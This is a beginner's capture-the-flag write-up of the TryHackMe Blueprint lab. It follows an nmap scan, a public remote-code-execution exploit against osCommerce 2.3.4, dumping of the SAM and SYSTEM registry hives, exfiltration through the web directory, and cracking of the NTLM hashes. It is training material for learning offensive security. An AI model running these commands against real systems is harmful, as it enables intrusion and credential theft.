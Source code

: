 ## TryHackMe - Blueprint Methodology

This is the attack methodology I used for TryHackMe's Blueprint box.
I have based this document on a general concept of the intrusion kill-chain:
Reconnaissance > Weaponization > Delivery > Exploitation > Installation > Command & Control > Actions on Objectve

---
### Environment
#### Operating System
Latest kali-VM rolling update
#### Tools
Python scripts

### Methodology
#### Objectives/Flags
 "Lab" user NTML hash decrypted and root.txt
#### Reconnaissance
First I checked for open ports using a basic nmap scan
```bash
nmap -t4 <TargetIP>
```
```
PORT      STATE    SERVICE
80/tcp    open     http
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
443/tcp   open     https
445/tcp   open     microsoft-ds
512/tcp   filtered exec
1152/tcp  filtered winpoplanmess
1875/tcp  filtered westell-stats
3306/tcp  open     mysql
4662/tcp  filtered edonkey
7741/tcp  filtered scriptview
8080/tcp  open     http-proxy
9010/tcp  filtered sdr
20005/tcp filtered btx
26214/tcp filtered unknown
27000/tcp filtered flexlm0
49152/tcp open     unknown
49153/tcp open     unknown
49154/tcp open     unknown
49158/tcp open     unknown
49159/tcp open     unknown
49160/tcp open     unknown
```
I could see some HTTP open ports and decided to see what was accessible
```
http://<TargetIP>:8080/
  http://<TargetIP>:8080/oscommerce-2.3.4/catalog/
```
I could determine the framework being used for the commerce page was oscommerce-2.3.4. Using this information I visited Exploit-DB to see what was available.
```
https://www.exploit-db.com/exploits/50128
```
#### Weaponization 
N/A
#### Delivery
N/A
#### Exploitation
Using the remote-code-execution exploit from the DB, the target was attacked
```
python 50128.py http://<TargetIP>:8080/oscommerce-2.3.4/catalog/
```
Once the attack was successful, I now had RCE shell access into the target.
#### Installation 
N/A
#### Command & Control
N/A
#### Actions on Objective
I started by trying to determine the nature of the host and explore it's file directories
```
whoami
  nt autheority\system
```
```
DIR C:\users
  Administrator
    C:\users\Administrator\Desktop\root.txt.txt
      more C:\users\Administrator\Desktop\root.txt.txt
        THM{*}
  DefaultAppPool
  Lab
```
The file-system was Windows and exploring userfiles I happend to come accross my first objective ```root.txt.txt```. According to my mentor the filename was done this way to obfuscate it from broad-searches.
My next objective was to locate and extract the NTML hash of the "Lab" user.

I must admit I didn't know what NTML was or where it was found however I had a reasonable understanding through hack-sims that this was going to be a hashed password found somewhere on the system. After some googling I was able to understand that this hash was most likley going to be located in the Windows "SAM" file generally located at ```C:\Windows\system32\config\SAM```. (source: https://security.stackexchange.com/questions/113295/location-of-password-hashes-on-a-windows-local-machine)
```
DIR C:\Windows\system32\config\
```
I could see that the file existed on the system and my goal was to now try and exfiltrate this file/data out of the target to my local machine. I had a lot of trial and error trying to get at this file. Various failures included; printing it's contents, copying it to the visible HTTP directory, Uploading it to a local-http/ftp server.
Eventually I stubled upon a page which explained how this data could be exported from it's registry key. (source: https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-hashes-from-sam-registry)
```
reg save hklm\system system
reg save hklm\sam sam
```
With the data exported out of the system-files I could now move them around without any system-protection. I moved these files to the visible HTTP directory.
```
copy <missing> http://<TargetIP>:8080/oscommerce-2.3.4/docs/
```
From my localhost I was able to save these files. My next step was to dump the hashes out of the files. Using the website I had found earlier I had to find a tool that was going to assit me.
```
python pwdump.py /home/kali/tools/TryHackMe/Blueprint/system /home/kali/tools/TryHackMe/Blueprint/sam
  Administrator:500:<hash>:<hash>:::
  Guest:501:<hash>:<hash>:::
  Lab:1000:<hash>:<hash>:::
```
Success, I've got the hash of the "Lab" user and now needed to decrypt this. I spent some time trying to mess with HashCat to crack it but after some more googling I was directed to Crackstation.
```
https://crackstation.net/
   Insert <hash> -> crack
     <password>
```
I spared my system it's resources and was able to instantly receive the cleartext password.

---
### After-action
#### What I've learned
This was the first "real" box that I've had a go at and had a blast from the whole experience. My mentor had helped me connect the dots on recconaissance and exploitaion through finding online resources/code. Once I was in, a majority of my frustrations was trying to understand what NTML was and more specifically how I was going to extract that information to my localhost. Lastly why burn the computing power when an online service can crack passwords for you?
#### What I would've done differently
Given that this was my first box, I was a bit messy with what I was actually doing on the target Machine. I had rebooted it by attempting to run arbitrary files and possibly executed programs in trial and error.
I definitely would like to record what actions I had taken (including timestamps?) and what failures I had run into for posterity/documenation.
Lastly, I should have spent the extra effort in removing the extracted system files from the export location and even the visible HTTP directory to reduce my footprint.
